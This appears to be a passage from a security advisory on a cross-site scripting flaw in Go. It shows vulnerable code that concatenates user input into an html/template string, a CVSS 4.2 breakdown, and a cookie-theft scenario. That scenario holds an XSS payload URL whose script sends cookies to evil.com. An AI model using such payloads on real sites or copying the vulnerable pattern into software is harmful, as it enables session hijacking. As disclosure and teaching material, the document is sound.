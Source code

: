 ```go
// Vulnerable code
tmplString := "<html><head><title>Welcome</title></head>" +
    "<body><h1>Hello " + userInput + "!</h1></body></html>"

```

Even though the application uses Go's `html/template` package, which typically provides automatic context-aware escaping, the protection is bypassed because the user input is directly concatenated into the template string before the template is parsed. This allows attackers to inject malicious JavaScript code that executes in victims' browsers, potentially leading to session hijacking, credential theft, or other client-side attacks.

# CVSS
**Score**: 4.2 \
**Vector**: CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:L/I:L/A:N \
**Severity**: Medium

The Medium severity rating (CVSS score 4.2) is based on the following factors:

- **Network Attack Vector (AV:N)**: The vulnerability can be exploited remotely over the network without requiring local access.

- **High Attack Complexity (AC:H)**: Successfully exploiting this vulnerability requires specific conditions to be met. The attacker must craft a malicious URL and the victim must visit that specific URL, which increases the complexity of the attack and reduces likelihood of successful exploitation.

- **No Privileges Required (PR:N)**: The attacker doesn't need any authentication or authorization to craft and deliver a malicious payload.

- **User Interaction Required (UI:R)**: A victim must visit a specially crafted URL containing the malicious payload for the attack to succeed, which limits exploitation opportunities.

- **Unchanged Scope (S:U)**: The vulnerability impacts only the vulnerable component and doesn't allow the attacker to affect resources beyond the security scope of the vulnerable component.

- **Low Confidentiality Impact (C:L)**: Successful exploitation can lead to disclosure of some sensitive information, such as session cookies or other browser-accessible data.

- **Low Integrity Impact (I:L)**: The attacker can modify some data on the client-side, such as web page content, but cannot alter server-side data.

- **No Availability Impact (A:N)**: The vulnerability doesn't affect the availability of the system.

This vulnerability is particularly concerning because it bypasses Go's built-in XSS protection mechanisms, making it more likely to be overlooked during code reviews.

# Exploitation Scenarios
**Scenario 1: Cookie Theft and Session Hijacking**
An attacker crafts a malicious URL like `http://acmecorp.com/?name=<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>` and sends it to a victim via email or social media. When the victim clicks the link, their browser renders the page and executes the injected script, sending their session cookies to the attacker's server. The attacker can then use these cookies to impersonate the victim and gain unauthorized access to their account.
